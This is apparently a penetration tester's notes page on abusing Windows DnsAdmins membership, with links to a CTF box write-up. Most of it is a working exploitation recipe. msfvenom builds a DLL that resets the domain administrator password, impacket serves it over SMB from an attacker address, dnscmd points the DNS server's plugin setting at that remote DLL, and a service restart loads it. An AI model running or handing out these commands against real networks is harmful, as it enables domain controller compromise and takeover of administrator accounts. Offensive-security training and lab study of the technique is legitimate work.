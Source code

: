 # DnsAdmins

## Information

This membership can be exploited by performing a **DLL injection**, i.e. specifying a plugin DLL that can be loaded upon (re)starting the DNS service.

## Exploitation

### Admin Password

Generate a malicious DLL and [transfer it](../../../tools/file-transfers.md) to the target.

{% hint style="danger" %}
Passing any payload this way **crashes the DNS server** as it never really starts. More information on how to bypass this issue by executing the payload as a thread [here](https://youtu.be/8KJebvmd1Fk?t=3034).
{% endhint %}

{% code overflow="wrap" %}
```bash
# generating the payload
sudo msfvenom -p windows/x64/exec cmd='net user administrator Password123! /domain' -f dll > da.dll
# starting an SMB server
$ impacket-smbserver -smb2support share ./
```
{% endcode %}

Set the DLL path from the compromised host and restart the DNS service (DnsAdmins cannot restart services by default, but it not uncommon to be given that right).

{% code overflow="wrap" %}
```powershell
# setting the Windows Registry remote DLL path
dnscmd.exe [FQDN] /config /serverlevelplugindll \\10.10.14.3\share\da.dll
```
{% endcode %}

Restart the DNS service. `DnsAdmins` members cannot restart services by default using `sc`, but they can do it with `dnscmd`.

{% tabs %}
{% tab title="dnscmd" %}
```powershell
dnscmd [FQDN] /restart
```
{% endtab %}

{% tab title="sc" %}
```powershell
# stop service
sc.exe stop dns
# start service
sc.exe start dns
```
{% endtab %}
{% endtabs %}

For an example of the above process check [here](https://x7331.gitbook.io/boxes/boxes/boxes/medium/resolute#elevation-of-privileges).

## Resources

{% tabs %}
{% tab title="Exploitation" %}
{% embed url="https://adsecurity.org/?p=4064" %}
{% endtab %}

{% tab title="DnsAdmins In-depth" %}
{% embed url="https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83" %}
{% endtab %}
{% endtabs %}
